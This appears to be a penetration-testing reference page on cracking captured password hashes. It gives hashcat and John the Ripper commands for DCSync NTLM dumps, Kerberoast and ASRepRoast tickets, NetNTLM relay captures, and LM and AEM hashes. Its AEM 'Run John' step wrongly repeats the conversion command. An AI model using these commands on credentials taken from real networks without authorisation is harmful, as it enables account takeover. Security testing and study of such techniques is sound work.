 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Cracking
## References

* Hashcat Automation Tool -<br />[https://github.com/sp00ks-git/hat](https://github.com/sp00ks-git/hat)

## Overview

* TTPs used through the tools:
	* [`Brute Force - Password Cracking` TTP](TTP/T1110_Brute_Force/002_Password_Cracking/T1110.002.md)

## Cracking Options

* <details><summary>Public Cracking (or rainbow tables) Sites (Click to expand)</summary><p>
	* crack.sh
	* Hashes.org
	* Hashkiller.io
	* Google the hash
	* Rainbow Tables websites
* DCSync
	* <details><summary>Format (Click to expand)</summary><p>

			username : unique_identifier : LMhash : NThash
			testuser:29418:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71
		* Tip
			* Use the following command to quickly format your DCSync file to hashcat-compatible format

					cut -d\\ -f2 dcsync.ntds | cut -d: -f1,2,3,4
	* <details><summary>Hashcat (Click to expand)</summary><p>

			hashcat -m 1000 -w 4 -O -a 0 -o pathtopotfile pathtohashes pathtodict -r ./rules/best64.rule --opencl-device-types 1,2
* Kerberos
	* Kerberoast
		* <details><summary>Hashcat (Click to expand)</summary><p>
			* $krb5tgs$23= etype 23

					Mode 	Description
					13100 	Kerberos 5 TGS-REP etype 23 (RC4)
					19600 	Kerberos 5 TGS-REP etype 17 (AES128-CTS-HMAC-SHA1-96)
					19700 	Kerberos 5 TGS-REP etype 18 (AES256-CTS-HMAC-SHA1-96)
			* Example

					./hashcat -m 13100 -a 0 kerberos_hashes.txt crackstation.txt
		* <details><summary>JohnTheRipper (Click to expand)</summary><p>
			* Example

					./john --wordlist=/opt/wordlists/rockyou.txt --fork=4 --format=krb5tgs ~/kerberos_hashes.txt
	* ASRepRoast
		* <details><summary>Hashcat (Click to expand)</summary><p>

				hashcat -m 18200 -a 0 ASREProastables.txt $wordlist
* Active Directory Relay Hashes
	* <details><summary>Captured Auth (Click to expand)</summary><p>
		* Note: Cracking NetNTLMv2 Response for *machine* accounts is virtually impossible.
		* NetNTLMv1
			* Recommended: Supply to crack.sh in the format: `NTHASH:1C1F1122CBC14FB2B0A054BC9B2BB0868EDE87CCC0D2117B`. Requires that challenge was set to `1122334455667788`.
			* Alternative: `ntlmv1-multi` by evilmog
				* Execute the below and perform the commands follow the guidance of the output.

						python3 ntlmv1.py --ntlmv1 hashcat::DUSTIN-5AA37877:76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595:1122334455667788
		* NetNTLMv2
			* Recommended: Hashcat ([TTP](TTP/T1110_Brute_Force/002_Password_Cracking/T1110.002.md))
				
					hashcat -m 5600 <hashfile.txt> -o <outfile.txt> <wordlist.txt>
* LM Hashes
	* <details><summary>hashcat (Click to expand)</summary><p>

			hashcat -m 3000 lm-hash.txt -a3
* <details><summary>AEM (Click to expand)</summary><p>
	1. Convert the AEM hashes to a John-compatible format
		* [https://fossies.org/linux/privat/john-1.9.0-jumbo-1.tar.xz/john-1.9.0-jumbo-1/run/aem2john.py?m=t](https://fossies.org/linux/privat/john-1.9.0-jumbo-1.tar.xz/john-1.9.0-jumbo-1/run/aem2john.py?m=t)
		* -<br />[https://github.com/openwall/john/pull/3240](https://github.com/openwall/john/pull/3240)

				python3 aem2john.py <hashes.txt>
	1. Run John
		* John Rules Guide-<br />[https://charlesreid1.com/wiki/John_the_Ripper/Rules](https://charlesreid1.com/wiki/John_the_Ripper/Rules)

				python3 aem2john.py <hashes.txt>
